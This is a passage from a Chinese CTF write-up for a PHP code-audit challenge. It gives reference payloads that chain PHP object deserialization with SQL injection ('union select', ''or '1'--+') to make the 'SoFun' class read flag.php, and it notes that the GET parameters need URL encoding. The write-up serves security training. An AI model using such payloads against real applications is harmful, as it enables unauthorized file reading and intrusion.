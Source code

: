 第二个答案是另一种思路，大家可研究一下。

注：因为传参方式为GET，注意进行URL编码。

参考答案：

```php
O:6:"HITCON":3:{s:6:"method";s:5:"login";s:4:"args";a:2:{s:8:"username";s:81:"1' union select 1,2,'a:1:{s:2:"xx";O:%2b5:"SoFun":2:{s:4:"file";s:8:"flag.php";}}'%23";s:8:"password";s:3:"234";}}
O:5:"SoFun":1:{s:4:"file";s:8:"flag.php";}
a:1:{s:2:"xx";O:5:"SoFun":2:{s:4:"file";s:8:"flag.php";}}
```

```php
O:5:"SoFun":3:{s:4:"file";s:8:"flag.php";s:2:"ff";O:6:"HITCON":5:{s:6:"method";s:5:"login";s:4:"args";a:2:{i:0;s:12:"1' or '1'--+";i:1;s:3:"111";}s:4:"conn";N;}}
```
![7](15.png)

## Day-12题解：(By l1nk3r)

题目如下：
